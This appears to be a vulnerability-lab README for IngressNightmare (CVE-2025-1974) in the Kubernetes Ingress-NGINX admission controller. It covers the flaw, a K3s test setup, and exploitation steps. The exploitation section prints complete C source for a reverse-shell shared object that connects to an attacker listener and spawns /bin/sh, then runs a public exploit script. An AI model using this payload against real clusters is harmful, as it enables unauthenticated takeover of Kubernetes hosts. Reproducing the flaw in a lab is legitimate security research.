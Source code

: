 # IngressNightmare: Kubernetes Ingress Unauthenticated Remote Code Execution Vulnerability (CVE-2025-1974)

The **IngressNightmare** vulnerability stems from a critical flaw in the **Ingress-NGINX Admission Controller**—a core Kubernetes security mechanism responsible for validating incoming Ingress resources before they are accepted by the cluster. This controller is **exposed over the network without requiring authentication**, allowing attackers to craft malicious `AdmissionReview` requests and inject unauthorized configurations into Ingress resources.

> **Note**: Achieving full Remote Code Execution (RCE) requires chaining CVE-2025-1974 with one of several other vulnerabilities. Below are some known exploit chains:


CVE-2025-1974 + CVE-2025-24514  RCE via `auth-url` annotation injection     
CVE-2025-1974 + CVE-2025-1097   RCE via `auth-tls-match-cn` annotation     
CVE-2025-1974 + CVE-2025-1098   RCE via image UID abuse

## Vulnerability Mechanics

An attacker can forge an `AdmissionReview` request to inject arbitrary NGINX directives into the Ingress resource. These directives are validated using the `nginx -t` command. Through careful manipulation, an attacker can inject an `ssl_engine` directive, which forces NGINX to load a dynamic shared object (DSO)—leading to arbitrary code execution.

More technical breakdowns can be found in the following resources:

- [IngressNightmare: CVE-2025-1974 - Critical Unauthenticated RCE](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities)
- [Kubernetes Blog: CVE-2025-1974 Overview](https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/)

---

## Environment Setup

To simulate the vulnerability, a K3s-based Kubernetes environment is used for simplicity.

```bash
docker compose up -d
```

After the environment starts, execute the initialization script inside the k3s container:

```bash
$ docker ps -a | grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server" ...

$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

Once initialized, you'll be inside a container named `exploit-pod`.

## Exploitation

We first compile a shared object (`.so`) payload matching the container’s architecture. Below is a sample source code for a reverse shell:

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    char *server_ip = "xxxx";
    uint32_t server_port = 7788;
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    system("touch /tmp/hacked");
    if (connect(sock, (struct sockaddr *)&attacker_addr, sizeof(attacker_addr)) != 0)
        exit(0);
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}
```

Replace `server_ip` with your actual reverse shell listener. You can compile the binary using the environment provided by [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main).

Once compiled, place the resulting `shell.so` into the `./exploit` directory of the container.

Inside `exploit-pod`, navigate to the exploit directory and launch the exploit script. The script is sourced from the [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main) GitHub repository:

```bash
cd /exploit
python3 exploit.py
```

You should observe the creation of the `/tmp/hacked` file inside the ingress-nginx container, confirming successful exploitation.

![](1.jpg)	

## References

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
